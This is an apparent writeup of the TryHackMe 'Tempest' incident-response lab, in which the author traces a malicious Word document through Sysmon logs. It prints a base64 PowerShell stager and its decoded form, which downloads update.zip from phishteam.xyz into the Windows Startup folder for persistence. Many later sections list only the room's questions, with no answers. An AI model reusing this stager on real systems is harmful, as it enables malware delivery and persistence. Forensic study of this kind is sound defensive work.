









# Tempest Room

This is a writeup for the Tempest room which can be found on TryHackMe.

If you want to try this room for yourself here is the link: https://tryhackme.com/room/tempestincident

This room is about analysing endpoints and network logs with the focus being on investigating artefacts on a compromised machine.

## Preparation - Tools and Artifacts

Before the investigation can begin, it's recommended to check file hashes of artefacts to verify that the file is expected as is. 
The room instructs us that the investigation files can be found in the **Incident Files** folder on the desktop.

We need to now check for the file hashes which can be done through powershell.

This room also recommends using either Timeline Explorer and/or Sysmon View for viewing logs, for this writeup I'm going to use Timeline Explorer.
In order to use Timeline Explorer we need to convert the provided sysmon event log file into a CSV file. This is accomplished by using EvtxEcmd.

## Initial Access - Malicious Document
Now we can begin with the real investigation. What we know right now is that there is a malicious document with a **.doc** attachment, the file was downloaded through **chrome.exe**, and the document executed a series of commands.

Using Timeline Explorer I tried searching for any instance of ".doc" in the logs.

This search reveals 13 logs have a string of text containing ".doc". Doing further digging into these logs I find this.

**free_magicules.doc** is the only .doc file that can be found in the logs. We can also see that the user that opened this file is named benimaru.

I decided to look at the proceeding logs and found a few DNS connections to phishteam.xyz wih the IP of 167.71.199.191

Looking further into the logs there was a big command that was executed.

This command is trying to execute a base64 string:

>JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==

I used 
[CyberChef](https://gchq.github.io/CyberChef/)
to decode the base64 string which gave me this:

>\$app=[Environment]::GetFolderPath('ApplicationData');cd "\$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;

This command going to the Startup directory in windows, uses Invoke Web Request (iwr) to download **update.zip** from **phishteam.xyz**, uses **-outfile** to specify the directory path, unzipz the contents of **update.zip** and then removes the original zip file.
What this achieves is a new file within the Startup directory, which is used to run programs on startup.

To see if I could quickly find out what CVE this is I tried using AI to search for the application used to run the command, the file directory used, and the powershell usage.

The **DogWalk** vulnerability that the AI described didn't match with what's been discovered so far, but the **Folina** exploit shows a perfect match as seen in the AI's summary.

## Initial Access - Stage 2 Execution

*The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?*

*The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user?*

*Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?*

*The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker?*

## Initial Access - Malicious Document Traffic

*What is the URL of the malicious payload embedded in the document?*

*What is the encoding used by the attacker on the c2 connection?*

*The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?*

*The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?*

*What is the HTTP method used by the binary?*

*Based on the user agent, what programming language was used by the attacker to compile the binary?*

## Discovery - Internal Reconnaissance

*The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?*

*The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?*

*The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection?*

*What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?*

*What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.*

*The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate?*

## Privilege Escalation - Exploiting Privileges

*After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?*

*Based on the SHA256 hash of the binary, what is the name of the tool used?*

*The tool exploits a specific privilege owned by the user. What is the name of the privilege?*

*Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?*

*The binary connects to a different port from the first c2 connection. What is the port used?*

## Actions on Objectives - Fully-owned Machine

*Upon achieving SYSTEM access, the attacker then created two users. What are the account names?*

*Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?*

*Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?*

*The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?*

*Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?*

*After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this?*
